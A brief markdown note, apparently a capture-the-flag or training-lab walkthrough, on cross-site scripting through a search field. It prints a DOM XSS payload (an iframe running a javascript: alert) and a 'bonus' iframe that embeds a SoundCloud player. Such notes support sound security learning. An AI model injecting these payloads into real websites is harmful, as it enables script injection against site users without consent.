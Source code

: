 # XSS
Send HTML in the search field 
## DOM XSS
    <iframe src="javascript:alert(`xss`)">
## Bonus Payload
    <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe> 

